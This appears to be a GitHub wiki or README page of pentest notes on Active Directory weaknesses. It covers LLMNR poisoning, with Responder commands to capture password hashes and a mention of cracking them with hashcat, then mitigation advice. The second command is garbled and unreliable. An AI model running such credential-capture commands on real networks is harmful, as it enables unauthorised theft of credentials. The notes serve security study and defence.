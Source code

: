 
<a id="readme-top"></a>
**please note**
> [!NOTE]
> This page is moving to the wiki section: https://github.com/asktechsupport/help/wiki

---
# Wiki Home
> [!NOTE]
> Welcome to my wiki

### Active Directory Vulnerabilities
#### LLMNR Poisoning - How to attack

Step1️⃣ Run Responder
```
python /usr/share/responder/Responder.py -I tun0 -rdw -v
```
```
sudo -I responder -| tun0 -dwP
```
<details><summary>Step 2️⃣</summary></details>

<details><summary>Step 3️⃣A hash will come through, like the screenshot:  </summary></details>

<details><summary>Step 4️⃣ Using hashcat, if the password is weak enough we can crack it:  </summary></details>


#### LLMNR Poisoning - Mitigation
---
To mitigate the LLMNR (Link-Local Multicast Name Resolution) poisoning vulnerability in an Active Directory environment, you can use PowerShell to disable LLMNR across your network. Here's how:

<details><summary>Steps to Mitigate LLMNR Poisoning</summary></details>

By disabling LLMNR, you effectively reduce the risk of exploitation via LLMNR poisoning attacks in your Active Directory environment.
> [!TIP]
> If a company must use or cannot disable LLMNR, the best course of action is to:
>
> 1️⃣Require Network Access Control
> 
> 2️⃣Require Strong user passwords (greater than 14 characters)

### SMB Relay Vulnerabilities

### Gaining Shell Access Vulnerabilities

### IPv6 Vulnerabilities

### Passback Attacks
